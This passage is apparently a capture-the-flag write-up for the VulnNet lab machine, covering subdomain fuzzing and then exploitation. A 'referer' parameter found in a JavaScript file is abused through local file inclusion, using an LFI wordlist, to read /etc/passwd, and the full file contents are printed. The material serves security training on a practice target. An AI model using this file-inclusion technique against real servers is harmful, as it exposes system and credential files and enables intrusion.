 ==&gt; broadcast.vulnnet.thm</code></pre><p id="d8462525-5cff-4ecc-a7b9-400137e91ed4" class=""><mark class="highlight-red_background"><strong>Unauthorized.</strong></mark><strong>so we have to scan our main domain</strong><div class="indented"><ul id="aed5b40e-b9f1-4e79-b040-38b9ab8e930b" class="bulleted-list"><li style="list-style-type:disc"><strong>like before we check source code</strong></li></ul><ul id="40aa7a7d-8b35-497e-afdb-6d1c36cf178a" class="bulleted-list"><li style="list-style-type:disc"><strong>cert</strong></li></ul><ul id="b35c3072-0ed8-4e6a-b813-5926c7cedadd" class="bulleted-list"><li style="list-style-type:disc"><strong>domin under a domain at least 4 times</strong></li></ul><ul id="fe2ff3e7-e589-4a43-8f35-63f041776ada" class="bulleted-list"><li style="list-style-type:disc"><strong>and also </strong><span style="border-bottom:0.05em solid"><strong>fuzzing</strong></span><strong> our </strong><span style="border-bottom:0.05em solid"><strong>broadcast.vulnnet.thm</strong></span><strong> for </strong><span style="border-bottom:0.05em solid"><strong>hidden</strong></span><strong> </strong><span style="border-bottom:0.05em solid"><strong>dir</strong></span><strong> and </strong><span style="border-bottom:0.05em solid"><strong>urls</strong></span><strong>.</strong></li></ul><p id="e707019d-bbe8-45ea-815f-ed414e59f098" class=""><strong>You can use burp suite😈</strong></p></div></p></details></li></ul><h1 id="4fc9f39b-7048-47f3-822c-5d0c8aee51af" class="">Exploitation:</h1><p id="70854370-e99a-4d36-84bb-c046ad49ef6a" class="">On js file <a href="http://vulnnet.thm/js/index__d8338055.js"><code>http://vulnnet.thm/js/index__d8338055.js</code></a> we found this:<div class="indented"><ul id="433f189b-7cb9-4940-8819-9cb5bb6bb242" class="bulleted-list"><li style="list-style-type:disc"><code>http://vulnnet.thm/index.php?referer=&quot;</code> ⇒ Referer is an HTTP header field that identifies the address of the webpage ex. the URI that linked to the resource being requested. </li></ul><ul id="8d9e7f15-a271-4aa6-9f31-2f6b45abfb0c" class="bulleted-list"><li style="list-style-type:disc">so let’s try to inject someting on it. we know our target is linux. that means we must use linux stuff things</li></ul><ul id="7cf7613e-4941-4e7a-933e-ebf5b12e0d75" class="bulleted-list"><li style="list-style-type:disc">in this case i used <a href="https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux"><mark class="highlight-red_background"><strong><strong>LFI Linux WordList</strong></strong></mark></a><strong><strong> from sec list.</strong></strong></li></ul><ul id="fe635dfe-0beb-4977-b37c-34ee1d39dfd1" class="toggle"><li><details open=""><summary><strong>Boom we found this💣</strong></summary><p id="0c3013bf-474f-454e-8c55-da6548f20134" class=""><code>view-source:</code><code><a href="http://vulnnet.thm/index.php?referer=/etc/passwd">http://vulnnet.thm/index.php?referer=/etc/passwd</a></code></p><pre id="fceb1f54-8389-4dd4-995f-0848ada9ba60" class="code"><code>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
lightdm:x:106:113:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:107:117::/nonexistent:/bin/false
kernoops:x:108:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
pulse:x:109:119:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:110:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
hplip:x:111:7:HPLIP system user,,,:/var/run/hplip:/bin/false
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
mysql:x:112:123:MySQL Server,,,:/nonexistent:/bin/false